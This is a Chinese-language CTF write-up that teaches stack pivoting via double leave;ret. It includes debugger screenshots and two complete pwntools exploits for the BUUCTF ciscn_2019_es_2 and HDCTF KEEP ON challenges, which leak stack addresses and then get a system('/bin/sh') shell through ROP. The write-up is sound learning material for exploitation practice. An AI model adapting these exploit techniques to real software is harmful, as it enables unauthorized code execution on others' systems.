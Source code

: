 ## 栈迁移

### 题目：[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_es_2)

### 知识点：栈迁移

1. 使用情况：题目中有栈溢出，但是 **栈溢出的范围** 有限，导致构造的ROP链不能完全写入到栈中，此时需要进行栈迁移，将栈迁移到能接受更多数据的位置（改变相继sp、bp寄存器的值），位函数调用、传参构造一个新的栈空间。

2. 函数调用时，无论传参、存bp值还是存返回值都是用栈完成（以32位为例），在普通的栈溢出情况下构造ROP也无非是重新为函数的调用构造了一个 **新栈** ，而 **栈的位置由sp寄存器** 的值确定。

3. 要改变sp、bp寄存器，拿必定不能使用程序原先在栈上保存的bp寄存器值，所以要将其 **覆盖掉** ，如何改变sp和bp即为栈迁移的关键。

4. 改变sp、bp的关键在于函数退出时的 **leave；ret** ->  **mov sp,bp;popbp** 指令，这组指令通常是被用来恢复函数的调用的栈帧，时程序返回后仍能正常运行，其与函数开头的 **push；mov**指令（用来生成栈帧）相反，先看这篇了解栈帧的相关知识 [PWN入门--栈溢出_pwn栈溢出-CSDN博客](https://blog.csdn.net/yjh_fnu_ltn/article/details/138540661?spm=1001.2014.3001.5501)：

   ![image-20240601192020502](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011920544.png)

   ![image-20240601192244862](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406011922899.png)

5. 改变sp、bp需要用到 **两层leave；ret** 指令，将我们用来覆盖的值传递给sp寄存器，因为一层**leave；ret** 指令只能将bp寄存器的值改变，无法改变sp寄存器（原因：利用栈溢出无法在 **mov sp，bp** 指令前直接修改bp寄存器），但是第二层**leave；ret** 可以借助第一次修改的bp寄存器值来更新sp寄存器。因此，可以用 **覆盖值** （覆盖掉bp寄存器指向的栈空间上的值）来更新sp寄存器。

   * 以该例题为例子进行调试：

   * 进入vul函数时，栈上的状态：

     ![image-20240601211007396](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012110461.png)

     ![image-20240601211509331](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012115364.png)

   * 可见bp寄存器中存储着地址 **0xffffcfd8**（调用者的sp寄存器值），bp所指向的栈空间上的值为 **0xffffcfe8** （调用者的sp寄存器值，指向栈低）。

   * 此时输入0x30个字符来覆盖bp和其下面的返回值：

     ![image-20240601211355099](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012113144.png)

   * 可见bp寄存器指向的栈空间已经被覆盖（数据随便输入，仅实验用），后面的函数返回地址也被修改，此时执行最后的 **leave；ret** 指令，观寄存器的变化，可见bp寄存器的值已经被我们用来覆盖的值替换了，但是sp寄存器的值任然正常（因为push bp和ret，导致sp寄存器在原bp寄存器的基础上+8）：

     ![image-20240601211836403](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012118441.png)

   * 此时如果将返回值替换为一组 **leave；ret**地址，修改ip值，再执行一次**leave**，那么sp寄存器将变化为 **bp寄存器中的值+4** ，于是完成栈迁移过程，所以 **新的返回值** 就在 **(bp)+4**地址处，执行ret指令即可改变ip为该返回值，调用该处函数：

   * 第一次 **leave；ret** ：

     ![image-20240601212358780](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012123834.png)

   * 第二次 **leave；ret** ：

     ![image-20240601212410397](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012125350.png)

### 题解：

1. vul函数中read函数值给了0x30个输入空间，只能覆盖到函数的返回值处（前面调试过），虽然存在后门函数hack，但是其参数不是 **/bin/sh**，在构造ROP时需要修改参数，者导致ROP链的长度超过了read的读取范围，一次考虑栈迁移：

   ![image-20240601213220865](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012132912.png)

   ![image-20240601213234098](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012132134.png)

2. 栈迁移的位置因考虑在read的读取范围之内，首先应该考虑栈迁移的目标位置target，直接选择输入s的首地址即可，在 **bp-0x38** 处，所以首先需要 **泄漏数bp处栈上** 的值：

   ![image-20240601215613932](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012217057.png)

3. printf函数将s以字符串的形式输出，遇到空白符才终止，所以只要将分配给s的空间全部填满即可泄漏bp处的地址，gbd调试如下：

   ![image-20240601220413055](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012204113.png)

   ![image-20240601220503921](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012205971.png)

4. 迁移完成后，ret的返回值就在**bp-0x38+4**处，调用后函数的返回值就在**bp-0x38+4+4**（随便填），传递的 **参数的地址** （参数“/bin/sh”需要手动写入，地址需要手动计算相对于bp的偏移**bp-0x38+4+4+4+4**）就放在**bp-0x38+4+4+4**，“/bin/sh”放在地址 **bp-0x38+4+4+4+4** 处。

5. EXP如下：

   ``````python
   from pwn import *
   # from LibcSearcher import *
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote('node5.buuoj.cn',28101)
   flag = []
   sys_addr = 0x08048400
   leave_ret = 0x08048562
   p.recvuntil("Welcome, my friend. What's your name?\n")
   
   #先泄漏出ebp地址,printf以字符串形式输出s，直到遇到空白符停止，所以可以泄漏ebp的值
   payload1= 0x20*b"a"+b"b"*0x8
   p.send(payload1)
   p.recvuntil("b"*0x8)
   ebp_addr=u32(p.recv(4))
   log.success('ebp==>'+hex(ebp_addr))
   
   #进行栈迁移
   payload2 = (b"aaaa"+p32(sys_addr)+p32(0)+p32(ebp_addr-0x28)+b'/bin/sh').ljust(0x28,b'\x00')+p32(ebp_addr-0x38) + p32(leave_ret)
   p.send(payload2)
   p.recvuntil(b'Hello, aaaa\n')
   p.sendline(b'cat flag')
   
   flag.append(p.recv().decode()[0:len(flag)-1])
   p.interactive()
   
   print(flag)
   ``````

   ![image-20240601221641973](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406012216164.png)

### [[HDCTF 2023\]KEEP ON | NSSCTF](https://www.nssctf.cn/problem/3774)

1. 题目给了一个格式化字符串的漏洞，和一个栈溢出漏洞，但是栈溢出的位置有限，只能溢出到返回值的位置，这样构造的ROP链不能完全写入到栈上，需要进行栈迁移：

   ![image-20240602110426187](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406021104239.png)

2. 确定栈迁移的目标位置：输入数组s的首地址，首先利用而格式化字符串泄漏bp寄存器指向的栈上的数据（是函数调用者即vuln的栈低指针），根据该值可以确定与s首地址的偏移x，从而用 **泄漏的数据-x** 来覆盖bp处的值， **泄漏的数据-x** 处即为新的栈空间。

   * 调试确定 **格式化字符串泄漏数据的位置** ，**bp处值与s的偏移量** ，可以看到bp寄存器指向的位置在输出字符串中的 **第16个** ，s的首地址(0x7fffffffddb0)与泄漏的值(0x7fffffffde10)之间的距离相差 **0x60**：

     ![image-20240602111522724](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406021115814.png)

     ![image-20240602111726331](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406021117375.png)

     

3. EXP，其中 **target+40** 是我们输入字符串 **b'/bin/sh'** 的地址，要放在 **pop_rdi_ret** 传参：

   ``````python
   from pwn import *    
   context(os='linux', arch='amd64', log_level='debug')
   p=remote('node4.anna.nssctf.cn',28697)
   
   #ROPgadget获取一些必要指令的地址
   leave_ret = 0x4007f2	#栈迁移使用
   pop_rdi_ret = 0x4008d3	#传参使用
   ret_addr = 0x4005b9		#栈平衡使用
   sys_addr = 0x4005E0		#挟制ip使用
   p.recvuntil(b'please show me your name: \n')
   
   #泄漏地址
   payload = b'%16$p'
   p.sendline(payload)
   p.recvuntil(b'hello,')
   target = eval(p.recv(14).decode())
   print(hex(target))
   p.recvuntil(b'keep on !\n')
   
   #计算栈迁移后的首地址
   target = target - 0x60
   payload = (b'aaaaaaaa'+p64(ret_addr)+p64(pop_rdi_ret)+p64(target+40)+p64(sys_addr)+b'/bin/sh').ljust(0x50,b'\x00')+p64(target)+p64(leave_ret)
   p.sendline(payload)
   p.sendline(b'cat flag.txt')
   p.interactive()
   ``````

   ![image-20240602112336358](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406021123506.png)
